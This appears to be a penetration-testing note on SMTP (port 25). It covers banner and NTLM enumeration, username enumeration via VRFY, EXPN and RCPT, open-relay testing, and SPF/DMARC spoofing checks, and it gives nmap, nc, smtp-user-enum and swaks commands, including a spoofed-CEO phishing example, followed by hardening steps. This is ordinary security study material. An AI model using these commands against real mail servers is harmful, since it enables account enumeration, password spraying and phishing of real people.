

# 05 - SMTP (Port 25) Pentesting

## 1. Executive Summary

SMTP sends email and listens on **TCP 25** (plain), **587** (submission/STARTTLS), and **465** (implicit TLS). For pentesters it offers **username enumeration** (VRFY/EXPN/RCPT), **open-relay** abuse for spam/phishing, **email spoofing** when SPF/DKIM/DMARC are weak, and version/NTLM information disclosure. Email programs typically send via SMTP and receive via POP3/IMAP.

## 2. Protocol Overview

Text-based command/response. Key verbs: `HELO/EHLO`, `MAIL FROM`, `RCPT TO`, `DATA`, `VRFY`, `EXPN`, `AUTH`. `EHLO` lists server extensions (STARTTLS, AUTH mechanisms, SIZE, etc.).

## 3. Enumeration

```bash
# Banner, supported commands, open-relay, NTLM info
nmap -p25 --script smtp-commands,smtp-open-relay,smtp-ntlm-info <IP>

# Manual conversation
nc -nv <IP> 25
EHLO attacker.com
```
NTLM-supported servers (Windows/Exchange) leak NetBIOS/DNS name and OS build via the `smtp-ntlm-info` script.

## 4. Exploitation

### 4.1 User Enumeration
```bash
# VRFY: is this a valid user?
VRFY root
# EXPN: expand a mailing list
EXPN admins
# RCPT TO probing when VRFY/EXPN disabled
MAIL FROM:<test@x.com>
RCPT TO:<root@target.com>   # 250 = exists, 550 = no

# Automated
smtp-user-enum -M VRFY -U users.txt -t <IP>
smtp-user-enum -M RCPT -U users.txt -t <IP>
```
Valid usernames feed SSH/VPN/OWA password sprays.

### 4.2 Open Relay
If the server relays mail for arbitrary external sender/recipient pairs, it can send spoofed phishing:
```bash
nmap -p25 --script smtp-open-relay -v <IP>
swaks --server <IP> --from ceo@target.com --to victim@target.com --header "Subject: Invoice" --body "click"
```

### 4.3 Spoofing (weak SPF/DKIM/DMARC)
```bash
# Check policy first
dig txt target.com | grep spf
dig txt _dmarc.target.com
```
Missing/`p=none` DMARC → deliverable spoofed mail. `swaks` crafts the message.

### 4.4 Information Gathering via Headers
Make the victim email you (contact form), then read received headers to learn internal hostnames, IPs, and mail topology.

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Valid mailbox creds → OWA/Exchange, internal contacts, AD usernames.
- Internal topology from headers feeds further network mapping.

## 7. Defense & Hardening
1. Disable `VRFY`/`EXPN`; uniform RCPT responses.
2. No open relay — authenticate + restrict relay domains.
3. Enforce SPF (`-all`), DKIM signing, and DMARC `p=reject`.
4. Require STARTTLS/TLS; patch the MTA.

## 8. Chaining Opportunities
- Enumerated users → AD password spray. See **[[09 - Kerberos (Port 88) Pentesting]]**.
- Spoofing → phishing → initial access.

## 9. Related Notes
- [[29 - POP3 (Ports 110-995) Pentesting]]
- [[30 - IMAP (Ports 143-993) Pentesting]]
- [[03 - DNS (Port 53) Pentesting]]

## 10. Tools
`swaks`, `smtp-user-enum`, `nmap` smtp-* scripts, `nc`, `hydra`.
